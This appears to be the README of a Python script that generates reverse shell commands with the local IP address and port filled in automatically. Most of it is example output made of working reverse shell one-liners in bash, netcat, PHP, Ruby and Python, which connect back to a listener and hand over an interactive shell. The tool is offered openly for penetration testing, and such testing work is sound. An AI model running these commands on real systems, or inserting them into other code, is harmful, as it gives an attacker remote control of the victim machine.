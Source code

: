 # Reverse Shell Generator
Generates reverse shell commands and substitutes the IP address automatically. All commands are from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

# Setup
Requires the [`netifaces`](https://github.com/al45tair/netifaces) package:
```
$ pip3 install -r requirements.txt
```

# Usage
```
$ python3 revsh.py [-h] [-p PORT] [-c CHOOSE [CHOOSE ...]] [iface]
```
By default, this script will automatically choose the first non-loopback network interface if no interface is specified. If an interface is specified, then the specified interface will be used. However, if the specified interface is invalid (invalid name or no IP assigned), then a valid interface will be chosen and used instead.

# Example
Auto choose an interface:
```
$ python3 revsh.py
bash -i >& /dev/tcp/192.168.1.3/9999 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.1.3/9999 0>&1'
nc -e /bin/sh 192.168.1.3 9999
rm /tmp/ff;mkfifo /tmp/ff;cat /tmp/ff|/bin/sh -i 2>&1|nc 192.168.1.3 9999 >/tmp/ff
php -r '$sock=fsockopen("192.168.1.3",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("192.168.1.3",9999).to_i;exec sprintf("/bin/sh -i <&%%d >&%%d 2>&%%d",f,f,f)'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.3",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Use a custom port instead of 9999:
```
$ python3 revsh.py -p 1234
bash -i >& /dev/tcp/192.168.1.3/1234 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.1.3/1234 0>&1'
nc -e /bin/sh 192.168.1.3 1234
rm /tmp/ff;mkfifo /tmp/ff;cat /tmp/ff|/bin/sh -i 2>&1|nc 192.168.1.3 1234 >/tmp/ff
php -r '$sock=fsockopen("192.168.1.3",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("192.168.1.3",1234).to_i;exec sprintf("/bin/sh -i <&%%d >&%%d 2>&%%d",f,f,f)'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.3",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Use a custom interface:
```
$ python3 revsh.py tun0
bash -i >& /dev/tcp/192.168.2.2/9999 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.2.2/9999 0>&1'
nc -e /bin/sh 192.168.2.2 9999
rm /tmp/ff;mkfifo /tmp/ff;cat /tmp/ff|/bin/sh -i 2>&1|nc 192.168.2.2 9999 >/tmp/ff
php -r '$sock=fsockopen("192.168.2.2",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("192.168.2.2",9999).to_i;exec sprintf("/bin/sh -i <&%%d >&%%d 2>&%%d",f,f,f)'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.2",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Only output `bash` and `nc` commands (the valid commands are `bash`, `nc`, `php`, `ruby`, `python`):
```
$ python3 revsh.py -c bash nc
bash -i >& /dev/tcp/192.168.174.131/9999 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.174.131/9999 0>&1'
nc -e /bin/sh 192.168.174.131 9999
rm /tmp/ff;mkfifo /tmp/ff;cat /tmp/ff|/bin/sh -i 2>&1|nc 192.168.174.131 9999 >/tmp/ff
```
